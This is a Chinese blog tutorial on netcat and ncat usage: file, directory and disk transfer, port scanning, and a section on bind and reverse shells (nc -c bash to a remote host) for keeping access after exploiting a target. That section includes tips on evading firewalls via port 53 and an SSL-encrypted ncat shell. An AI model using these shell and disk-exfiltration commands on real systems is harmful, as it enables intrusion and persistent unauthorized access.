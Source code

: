 ```yaml
---
layout: post
title: "nc、ncat使用"
date: 2022-07-27
tags: [kali, 渗透测试]
comments: true
author: JumpWang

---
```


## natcat

> [v1.10-41.1+b1]
> connect to somewhere:   nc [-options] hostname port[s] [ports] ...
> listen for inbound:     nc -l -p port [-options] [hostname] [port]
> options:
>      -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
>      -e filename             program to exec after connect [dangerous!!]
>      -b                      allow broadcasts
>      -g gateway              source-routing hop point[s], up to 8
>      -G num                  source-routing pointer: 4, 8, 12, ...
>      -h                      this cruft
>      -i secs                 delay interval for lines sent, ports scanned
>      -k                      set keepalive option on socket
>      -l                      listen mode, for inbound connects
>      -n                      numeric-only IP addresses, no DNS
>      -o file                 hex dump of traffic
>      -p port                 local port number
>      -r                      randomize local and remote ports
>      -q secs                 quit after EOF on stdin and delay of secs
>      -s addr                 local source address
>      -T tos                  set Type Of Service
>      -t                      answer TELNET negotiation
>      -u                      UDP mode
>      -v                      verbose [use twice to be more verbose]
>      -w secs                 timeout for connects and final net reads
>      -C                      Send CRLF as line-ending
>      -z                      zero-I/O mode [used for scanning]
> port numbers can be individual or ranges: lo-hi [inclusive];
> hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

- 可用于电子取证

  实际上是传输文本的能力，~~可以用于聊天~~、从被取证对象上收集信息

  pc1：监听4444端口

  ```sh
  nc -l -p 4444
  ```

  pc2：连接目标网址的4444端口

  ```sh
  nc -nv 10.139.21.74 4444
  ```

- 传输文件

  A等B连上并将发送的数据存到1.mp4

  A：

  ```sh
  nc -lp 4444 > 1.mp4
  ```

  B：

  ```sh
  nc -nv 1.1.1.1 4444 < 1.mp4 -q 1
  ```

  -q 1 表示发送完1s自动关闭

  A等B连上一连上就向B发送mp4

  A:

  ```sh
  nc -lp 4444 < 1.mp4 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444
  ```

- 传输目录

  A:

  ```sh
  tar -cvf -music/ | nc -lp 4444 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | tar -xvf -
  ```

- 传输加密文件（使用mcrypt命令）

  A:

  ```sh
  nc -lp 4444 | mcrypt -flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
  ```

  B:

  ```sh
  mcrypt -flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1
  ```

- 流媒体服务器

  A:

  ```sh
  cat 1.mp4 | nc -lp 4444
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | mplayer -vo xll -cache 3000 -
  ```

- 端口扫描

  -z：扫描模式，探测端口状态

  ```sh
  nc -nvz 1.1.1.1 1-65535
  ```

  -u：nc默认扫描tcp，扫描udp需要使用-u

  ```sh
  nc -vnzu 1.1.1.1 1-1024
  ```

  但我在尝试的时候发现nc多个端口并没有任何回显，不知道是什么原因

- 远程克隆硬盘

  nc还是只起到传输的作用，关键在于`dd`命令，会原原本本的复制硬盘，复制每一个1和0，包括已删除的部分

  ```sh
  nc -lp 4444 | dd of=/dev/sda
  dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
  ```

- 运程控制

  ​	在成功通过漏洞进入目标主机后，可以通过这种方式继续保持连接，比如设置脚本在每次开机的时候使用。尤其是反向连接用处很大。

  ​	因为服务器基本上都配置了防火墙，像很多防护做的不太好的网络管理员也会在防火墙上将由外向内的陌生端口访问全部禁掉。比如只开放80端口，443端口之类的，这种情况下想要在目标主机开放一个端口等待连接，我们基本上是连接不上的（被防火墙过滤）。但是由内向外的访问这些防火墙不会阻止，反向连接就有了用场。

  ​	有些防护意识很好的管理员会禁用一些由内向外的访问的端口，但是像常用的端口也不会进行拦截，比如DNS解析用的53端口，我们就可以开放53端口等待连接。

  ​	如果是跑业务的服务器，向外的所有端口都被禁止了，那就没办法了。

  - 正向

    A：

    ```sh
    nc -lp 4444  -c bash
    ```

    B: 

    ```sh
    nc 1.1.1.1 4444
    ```

  - 反向

    A:

    ```sh
    nc -lp 4444
    ```

    B:

    ```sh
    nc 1.1.1.1 4444 -c bash
    ```

    nc是跨平台的，windows这里将bash换为cmd

## ncat

 nc的缺点：

- 明文传输，缺乏加密能力，可能遭受到嗅探、中间人的挟持等等等
- 缺乏身份验证的能力，打开的端口可以被所有人控制，我们留下的通道其他黑客也能使用

ncat是nmap内包含的一个工具，是为了弥补nc的缺陷被开发出来的，使用ncat进行信息传输，传输的管道本身是被加密的

A（被控端）：

`--allow`是指定一个ip，允许这个ip连接

```sh
ncat -c bash --allow 1.1.1.1 -vnl 4444 --ssl
```

B：

```sh
ncat -nv 1.1.1.1 4444 --ssl
```

# 

